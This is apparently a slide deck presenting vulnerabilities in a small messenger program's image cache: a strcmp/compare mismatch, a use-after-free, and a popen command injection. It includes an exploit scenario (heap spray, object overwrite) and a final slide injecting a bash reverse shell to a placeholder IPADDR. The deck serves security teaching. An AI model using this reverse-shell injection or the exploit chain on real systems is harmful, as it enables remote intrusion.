


## Vulnerability and Exploitation 
- Hongsik Kim (w/ VOM)

---

## New Features
1. Image File Cache
2. /r, /rpl Command

---

## Image File Cache
---?image=assets/image/origin.jpg&size=auto 50%

---?image=assets/image/cached.JPG&size=auto 50%

---

## /r Command
---?image=assets/image/reply.jpg&size=auto 70%

---

## Vulnerabilities
- Logical |
    - Difference between strcmp and compare |

- Memory |
    - Use After Free |
    - Command Injection |

---

### poc.cc

```C++
using namespace std;

int main(){
    char buf[100] = "abcd\x00efg";
    string s1 = string(buf, 8);
    string s2 = string(buf);
    
    if (!strcmp(s1.c_str(), s2.c_str()))
        cout << "strcmp equal!!" << endl;

    if (!s1.compare(s2))
        cout << "compare equal!!" << endl;
}
```

@[9](Executed)

---

### Utils/Cache.cc

```C++
#include "Cache.hh"

namespace Cache {
    Cache::Cache() {
        count = 0;
    }
    Cache::~Cache() {
    }
    
    Element* Cache::find(string url) {
        for (auto it = data.begin(); it != data.end(); ++it) {
            if (!strcmp(url.c_str(), (*it).first.c_str()))
                return (*it).second;
        }
        return NULL;
    }


    void Cache::insert(string url, string sender, string path) {
        if (this->is_full())
            return;
        Element* elem = new Element(path, sender);
        data.push_back(make_pair(url, elem));
        count++;
    }

    Element* Cache::remove(string url) {
        auto elem = this->find(url);
        if (elem){
            for (auto it = data.begin(); it != data.end(); ++it) {
                if (!url.compare((*it).first)) {
                    it = data.erase(it);
                    return elem;
                }
            }
        }
        return elem;
    }

    void Cache::update(string url) {
        auto elem = this->remove(url);
        if (elem) {
            data.push_back(make_pair(url, elem));
        }
    }

    void Cache::pop() {
        auto it = data.begin();
        ++it;
        delete (*it).second;
        data.erase(it);
        count--;
    }

    Element::Element(string _path, string _sender) {
        path = _path;
        sender = _sender;
    }
    Element::~Element() {
    }
    
    string Element::GetPath() {
        return path;
    }

    string Element::GetSender() {
        return sender;
    }
}
```

@[10-16](Cache::find)
@[12](Using strcmp)
@[27-38](Cache::remove)
@[31](Using String::compare)
@[40-45](Cache::update)
@[47-53](Cache::pop)
@[55-68](Element Class)

---

### OnionMessenger.cc

```C++
void OnionMessenger::HandleAArt(Message::ImgLayer *msg) {                      
    auto sender = msg->GetSender();                                            
    auto url = msg->GetUrl();                                                  
    auto elem = image_cache->find(url);                                        
    string path;                                                               
    if (!elem){		// Cache Miss                                                              
        provider->PushChat(sender, "\n" + \
            Features::DisplayAArt(url, path));
        if (image_cache->is_full()) {                                          
            image_cache->pop();                                                
        }                                                                      
        image_cache->insert(url, sender, path);                                
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }                                                                          
    snprintf(recent_user, MAX_ID_LEN, "%s", sender.c_str());                   
    delete msg;                                                                
}                                                
```

@[6-12](Cache Miss)
@[13-17](Cache Hit)

---

## Exploit Scenario

---
<!-- .slide: data-background-transition="none" -->

@[](Handshake)
---
<!-- .slide: data-background-transition="none" -->

@[](Heap spray)
---
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
@[](Send a Image packet)
---
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process4.png&size=60%
@[](Concatination previous URL and NULL)
---
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process5.png&size=60%
@[](Make Cache Full. To trigger pop)
---
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process6.png&size=60%
@[](Overwrite string object of Element)
---
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
@[](Trigger GetPath)
<!-- .slide: data-background-transition="none" -->

---

## Control GetPath
```C++
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }
```

@[3](with manipulated path)

---

### Utils/Features.cc
```C++
string Asciiart(const char *filepath) {                                        
    string path = "/root/bin/goasciiart " ;                                    
    //string path = "/bin/go/bin/goasciiart ";                                 
    string result= "";                                                         
    path.append(" -p ").append(filepath).append(" -w 80");                     
    char buf[1024];                                                            
    FILE *fp=NULL;                                                             
    cout << path << endl;                                                      
    fp=popen((char*)path.c_str(),"r");                                         
    if (fp) {                                                                  
        while ((fgets(buf,1024,fp)) != NULL) {                                 
            result.append(string(buf));                                        
        }                                                                      
        pclose(fp);                                                            
    }                                                                          
    return result;                                                             
}                                  
```
@[5, 9](Command Injection)

---                                                                          
### Get a shell!

```C++
popen("/root/bin/goasciiart –p \
    ;echo \"bash -i >& /dev/tcp/IPADDR/8080 0>&1\"  | bash;\
    –w 80");
```

---

# Demo


